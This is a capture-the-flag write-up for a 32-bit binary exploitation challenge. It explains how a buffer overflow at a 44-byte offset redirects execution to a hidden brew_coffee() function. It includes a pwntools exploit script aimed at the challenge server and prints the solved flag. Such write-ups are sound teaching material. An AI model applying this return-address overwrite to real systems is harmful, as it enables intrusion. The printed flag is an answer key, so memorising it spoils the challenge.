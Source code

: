 # !Kogarashi Café - The First Visit  

**Category:** Binary Exploitation  

A simple binary exploitation challenge involving a buffer overflow to hijack execution flow.  

---

### Challenge  

**Provided File:** `first_visit`  

---

## Overview  

1. **Analyzing the Binary**  
   - Use `file first_visit` to determine the binary type:
     ```sh
     ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=ddf24eef326cd1ee996fc66f78c48a6eab6d9b87, not stripped
     ```
   - Run `strings first_visit` to find readable text inside:
     ```sh
     Barista: 'Strange... the recipe is missing.
     ```
   - Disassemble the binary using `objdump`:
     ```sh
     objdump -d first_visit > disassembly.txt
     ```
   - Load the binary in **Ghidra** or **Binary Ninja** to reverse-engineer its logic.  

2. **Identifying the Vulnerability**  
   - The binary contains a **buffer overflow vulnerability**, allowing us to overwrite the return address.
   - The function `brew_coffee()` is present in the binary but not called directly.
   - Our goal is to overwrite the return address with the function’s address to execute it.  

---

## Steps to Exploit  

1. **Check Binary Properties**  
   ```sh
   file first_visit  
   checksec --file=first_visit  
   strings first_visit  
   ```

2. **Reverse Engineer the Binary**  
   - Load in **Ghidra** or **Binary Ninja** to analyze the functions.
   - Identify the address of `brew_coffee()` from the disassembly.  

3. **Exploit Buffer Overflow**  
   - Determine the correct buffer overflow offset (44 bytes).
   - Overwrite the return address with the address of `brew_coffee()` to gain control.  

---

## Exploit Script  

```python
from pwn import *

# Connect to the remote challenge
p = remote('chals1.apoorvctf.xyz', 3001)

# Determine the offset (e.g., 44 bytes) and use the correct address of brew_coffee()
offset = 44
brew_coffee_addr = p32(0x0804856b)  # Using the address from disassembly

payload = b'A' * offset + brew_coffee_addr

p.sendline(payload)
p.interactive()
```

---

## Extracted Flag  

```
apoorvctf{c0ffee_buff3r_sp1ll}
```
